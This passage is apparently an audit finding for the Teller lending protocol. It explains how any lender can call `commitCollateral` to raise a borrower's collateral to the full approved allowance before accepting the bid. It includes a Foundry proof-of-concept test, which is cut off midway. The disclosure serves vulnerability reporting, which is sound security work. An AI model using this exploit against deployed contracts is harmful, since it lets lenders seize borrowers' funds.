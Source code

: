 ### Attack Vector 1 - Lender forces borrower to deposit extra collateral to seize extra collateral tokens

This attack is performed with the correct bid state, but by an actor that should not be able to call `commitCollateral`.

It shows how a lender can update the bid collateral just before accepting the bid, forcing the borrower to transfer any pre-approved assets to the escrow contract.

Borrowers using the platform will be approving many different assets, or some assets with a bigger `amount` in order to be able to submit multiple different bids.

Any of those extra assets can be forced to be put into escrow, and letting the lender steal those extra assets if the loan is not repaid on time.

Add this test to `packages/contracts/tests/TellerV2/TellerV2_Test.sol` and run `forge test -m "test_commit_collateral_extra_amount_exploit"`:

```solidity
function test_commit_collateral_extra_amount_exploit() public {
    // The borrower starts with 50000 WETH -> This is the victim
    assertEq(wethMock.balanceOf(address(borrower)), 50000);

    // The borrower plans to opens many bids
    // So, he approves 3000 WETH of collateral for all of them
    borrower.addAllowance(
        address(wethMock),
        address(collateralManager),
        3000
    );

    // The borrower prepares the first bid, setting the amount of collateral to 10
    Collateral memory info;
    info._amount = 10;
    info._tokenId = 0;
    info._collateralAddress = address(wethMock);
    info._collateralType = CollateralType.ERC20;

    Collateral[] memory collateralInfo = new Collateral[](1);
    collateralInfo[0] = info;

    // The borrower submits the bid with 10 WETH as collateral
    uint256 bidId = borrower.submitCollateralBid(
        address(daiMock),
        marketId1,
        100,                // _principal
        10000,              // _duration
        500,                // _APR
        "metadataUri://",
        address(borrower),
        collateralInfo
    );

    // A malicious lender sees the bid
    vm.startPrank(address(lender));

    // The lender prepares a malicious bid with the max value the borrower allowed as collateral
    // (Re-using the original `info` for simplicity of the POC)
    info._amount = 3000;

    // Here is the vulnerability
    // The malicious lender can update the commited collateral of any borrower
    collateralManager.commitCollateral(bidId, info);

    // The malicious lender can now accept the bid with the new collateral amount
    tellerV2.lenderAcceptBid(bidId);
```